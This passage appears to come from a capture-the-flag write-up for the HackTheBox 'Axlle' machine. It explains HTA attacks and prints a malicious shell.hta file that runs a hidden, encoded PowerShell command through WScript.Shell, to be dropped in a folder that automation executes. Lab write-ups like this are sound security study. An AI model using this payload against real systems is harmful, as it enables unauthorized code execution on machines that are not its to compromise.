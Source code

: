 email is saying that shortcuts inside `C:\inetpub\testing` will be tested using automation:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-7.png)

### HTA


Let's create maliciously crafted .hta file inside `C:\inetpub\testing` and wait for the automation to run it.

> An HTA (HTML Application) attack is a type of cyber attack that exploits the capabilities of HTA files to execute malicious code on a victim's system. HTA files are HTML files that are executed by the Microsoft HTML Application Host (`mshta.exe`). They have the file extension `.hta` and can contain a mix of HTML, VBScript, JavaScript, and other web technologies. When opened, HTA files run as standalone applications with the same privileges as the user.


We will create shell.hta file with the following [content](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#hta-example):

```html 
<html>
<head>
<HTA:APPLICATION ID="shell">
<script language="javascript">
        var c = "powershell -e <snipped>pAA==";  
        new ActiveXObject('WScript.Shell').Run(c, 0, true); 
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```
